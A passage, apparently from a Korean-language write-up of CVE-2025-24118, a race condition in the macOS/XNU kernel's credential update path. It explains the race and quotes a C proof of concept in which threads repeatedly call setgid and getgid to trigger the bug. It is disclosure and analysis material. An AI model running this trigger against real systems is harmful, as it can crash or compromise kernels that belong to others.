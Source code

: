 ```
    ...
  }
}
```

## PoC

`kauth_cred_proc_update`가 `p_ucred`를 변경할 때마다 버그가 발생하지만, 대부분의 작업 흐름에서는 자격 증명을 변경하지 않아 문제가 발생하지 않습니다. Race condition을 발생시키기 위해서는 `p_ucred`에 쓰기가 발생하는 동안 읽어와야 합니다. 다시 말해 `zalloc_ro_mut`를 통해서 `p_ucred`가 변경될 때의 지점을 잡아야 하고 커널에서 해당 흐름은 `setuid`, `setgid`, `setgroups`등이 발생시킬 수 있습니다. 다음 PoC는 setgid를 이용하여 race condition을 증명했습니다.

```c
// Joseph Ravichandran (@0xjprx)
// PoC for CVE-2025-24118.
// Writeup: https://jprx.io/cve-2025-24118
...

gid_t rg; // real gid
gid_t eg; // effective gid

void *toggle_cred(void *_unused_) {
    while(true) {        // [1]
        setgid(rg);
        setgid(eg);
    }

    return NULL;
}

void *reference_cred(void *_unused_) {
    // [2]
    volatile gid_t tmp;
    while(true) tmp = getgid();
    
    return NULL;
}

int main(int argc, char **argv) {
    pthread_t pool[2 * NUM_THREADS];
    rg = getgid();
    eg = getegid();

    if (rg == eg) {
        fprintf(stderr, "Real and effective groups are the same (%d), they need to be different to trigger kauth_cred_proc_update\n", rg);
        exit(1);
    }

    printf("Starting %d thread pairs\n", NUM_THREADS);
    printf("rgid: %d\negid: %d\n", rg, eg);
    for (int i = 0; i < NUM_THREADS; i++) {
        pthread_create(&pool[(2*i)+0], NULL, toggle_cred, NULL);
        pthread_create(&pool[(2*i)+1], NULL, reference_cred, NULL);
    }

    for (int i = 0; i < NUM_THREADS; i++) {
        pthread_join(pool[(2*i)+0], NULL);
        pthread_join(pool[(2*i)+1], NULL);
    }

    printf("Done\n");
    return 0;
```